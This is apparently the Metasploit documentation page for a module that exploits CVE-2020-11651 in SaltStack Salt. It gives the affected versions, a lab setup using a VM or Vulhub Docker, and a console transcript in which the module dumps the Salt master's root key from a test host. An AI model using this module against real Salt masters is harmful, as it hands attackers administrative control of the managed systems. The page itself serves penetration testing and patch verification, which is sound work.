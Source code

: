 ## Vulnerable Application

### Description

This module exploits unauthenticated access to the `_prep_auth_info()`
method in the SaltStack Salt master's ZeroMQ request server, for
versions 2019.2.3 and earlier and 3000.1 and earlier, to disclose the
root key used to authenticate administrative commands to the master.

VMware vRealize Operations Manager versions 7.5.0 through 8.1.0, as
well as Cisco Modeling Labs Corporate Edition (CML) and Cisco Virtual
Internet Routing Lab Personal Edition (VIRL-PE), for versions 1.2,
1.3, 1.5, and 1.6 in certain configurations, are known to be affected
by the Salt vulnerabilities.

Tested against SaltStack Salt 2019.2.3 and 3000.1 on Ubuntu 18.04, as
well as Vulhub's Docker image.

### Setup

**Note:** I did the bulk of my testing after manually installing Salt in
an [Ubuntu 18.04 VM](#using-a-virtual-machine), but the [Docker image
from Vulhub](#using-docker) may be quicker. YMMV.

#### Using a virtual machine

1. Set up an Ubuntu 18.04 VM
2. Browse to [SaltStack's instructions for
   Ubuntu](https://repo.saltstack.com/#ubuntu)
3. Select `Pin to Minor Release` and change all versions to either
   **2019.2.3** or **3000.1**, depending on the version you wish to test
4. Follow the instructions, installing only the `salt-master` and
   `salt-minion` packages necessary for testing
5. Follow the [post-installation
   configuration](https://docs.saltstack.com/en/latest/ref/configuration/index.html)

You may now begin testing.

#### Using Docker

**Prerequisites:** [Docker](https://docs.docker.com/get-docker/) and
[Docker Compose](https://docs.docker.com/compose/install/) must be
installed first.

**Note:** The Salt master is already configured and running in the
following scenario. The majority of the steps below are for configuring
and starting the minion. Version **2019.2.3** will be used.

1. Run `git clone https://github.com/vulhub/vulhub`
2. Run `cd vulhub/saltstack/CVE-2020-11651`
3. Run `docker-compose up -d` to start the container in the background
4. Run `docker exec -it cve-2020-11651_saltstack_1 bash` to drop to a
   root shell inside the container
5. Run `echo $'127.0.0.1\tsalt' >> /etc/hosts` to add the master to
   `/etc/hosts` (this allows the minion to find the master)
6. Run `salt-minion -d` to execute the minion in the background
7. Run `salt-key -A` and accept the key for the minion

You may now begin testing.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

This dumps the Salt master's root key by sending the `_prep_auth_info()`
method and extracting the key from the resulting serialized auth info.

## Scenarios

### SaltStack Salt 2019.2.3 on Ubuntu 18.04

```
msf5 > use auxiliary/gather/saltstack_salt_root_key
msf5 auxiliary(gather/saltstack_salt_root_key) > options

Module options (auxiliary/gather/saltstack_salt_root_key):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   4506             yes       The target port (TCP)


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump root key from Salt master


msf5 auxiliary(gather/saltstack_salt_root_key) > set rhosts 172.28.128.5
rhosts => 172.28.128.5
msf5 auxiliary(gather/saltstack_salt_root_key) > run
[*] Running module against 172.28.128.5

[*] 172.28.128.5:4506 - Connecting to ZeroMQ service at 172.28.128.5:4506
[*] 172.28.128.5:4506 - Negotiating signature
[+] 172.28.128.5:4506 - Received valid signature: "\xFF\x00\x00\x00\x00\x00\x00\x00\x01\x7F"
[*] 172.28.128.5:4506 - Sending identical signature
[*] 172.28.128.5:4506 - Negotiating version
[+] 172.28.128.5:4506 - Received compatible version: "\x03"
[*] 172.28.128.5:4506 - Sending identical version
[*] 172.28.128.5:4506 - Negotiating NULL security mechanism
[+] 172.28.128.5:4506 - Received NULL security mechanism
[*] 172.28.128.5:4506 - Sending NULL security mechanism
[*] 172.28.128.5:4506 - Sending READY command of type REQ
[+] 172.28.128.5:4506 - Received READY reply of type ROUTER
[*] 172.28.128.5:4506 - Yeeting _prep_auth_info() at 172.28.128.5:4506
[+] 172.28.128.5:4506 - Received serialized auth info
[+] 172.28.128.5:4506 - Root key: bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=
[*] 172.28.128.5:4506 - Disconnecting from 172.28.128.5:4506
[*] Auxiliary module execution completed
msf5 auxiliary(gather/saltstack_salt_root_key) > creds
Credentials
===========

host          origin        service                 public  private                                                                       realm  private_type  JtR Format
----          ------        -------                 ------  -------                                                                       -----  ------------  ----------
172.28.128.5  172.28.128.5  4506/tcp (salt/zeromq)  root    bv2Ra72DXzkrbFVYNPHrOe9CqM2aKBdl+E46/m/kaxvDsiLxhG+0PS55u704MyOi2/PgD/EadGk=         Password

msf5 auxiliary(gather/saltstack_salt_root_key) >
```
